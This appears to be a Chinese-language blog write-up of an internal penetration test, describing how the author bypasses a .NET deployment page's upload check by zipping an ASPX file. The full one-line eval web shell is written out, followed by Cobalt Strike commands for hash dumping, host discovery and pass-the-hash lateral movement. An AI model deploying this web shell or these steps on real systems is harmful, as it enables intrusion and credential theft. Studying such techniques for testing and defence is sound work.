内网180的.NET拿shell
最近对公司内网进行渗透，发现了一台项目部署的页面，就有了下面的后续。
- 打开发现两个服务，一个是iis7.5的默认页面

- 另一个是项目上传部署的页面

- 根据直觉告诉我，这里肯定可以上传项目然后getshell
- 尝试直接上传之后未成功
- 确认为.NET的中间件，尝试上传1.aspx

系统提示必须为zip压缩包

- 添加一个名称为“1”的站点

然后将1.aspx压缩成1.zip，最后进行上传
其中1.aspx的内容为
1 | <%@ Page Language="Jscript"%><%eval(Request.Item["chopper"],"unsafe");%> |
7.访问URL：http://192.168.1.180:8081/1/1.aspx

8.确认文件是存在的。
不存在的文件的页面如下：


1 | beacon> hashdump |

Net view

对1.155进行凭证传递

